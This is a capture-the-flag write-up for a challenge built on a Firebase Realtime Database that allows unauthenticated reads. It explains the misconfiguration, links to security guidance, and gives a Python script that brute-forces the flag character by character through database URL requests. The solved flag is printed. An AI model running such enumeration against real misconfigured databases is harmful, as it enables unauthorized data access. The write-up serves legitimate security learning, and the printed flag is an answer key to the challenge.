


# Best Bathroom on Campus

## Description


https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF.json

Author: Dr.Doctah

(Tried 'em all)

## Solution
This is how the respond of the server if we access the link.



From the URL or link of the challenge itself, we know that this challenge using Firebase.
Did you know that in Firebase unauthorized user could read or even write the data? 
Yes, it is if there's misconfiguration that will make it vulnerable to read or write access from unauthorized user.
This misconfiguration often happen in development phase and sometimes the developer forgot to change the configuration in production environment.
From this [link](https://www.acunetix.com/vulnerabilities/web/firebase-database-accessible-without-authentication/) we know that Firebase database could have this vulnerability and from this [link](https://firebase.google.com/docs/rules/insecure-rules) there are rules to avoid and recommended rules to enhance security.

From the image in the description of this challenge, the author seems query each character to make sure the flag is correct.
If the response is `true` then that character is part of the flag and if the response is `null` then the character is not a part of flag.
Using this Python code we can query each character and find the flag.

```py
import requests
import string

def create_request(url):
	res = requests.get(url, headers={"Content-Type":"application/json"})
	if res.status_code == 200:
		return res.text
	else:
		return None

if __name__=="__main__":
	base_url = 'https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF{'
	chars = """0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&'()*+,-.:;?@[\]^_`{|}~"""
	result = ''
	#url = f'{base_url}.json'
	#response = create_request(url)
	
	while '}' not in result: 
		for i in range(0, len(chars)):
			url = f'{base_url}{chars[i]}.json'
			response = create_request(url)
			print(url)
			if response == 'true':
				result += chars[i]
				base_url += chars[i] 
				print(result)
				if '}' in str(result):
					break
			else:
				continue
			#break
	print("UDCTF{" + result)
```

After running the code we will get the flag.

## Flag
`UDCTF{1ce_L4br4t0ry_s3C0nd_Fl0or_b0y's_b4thr00m}`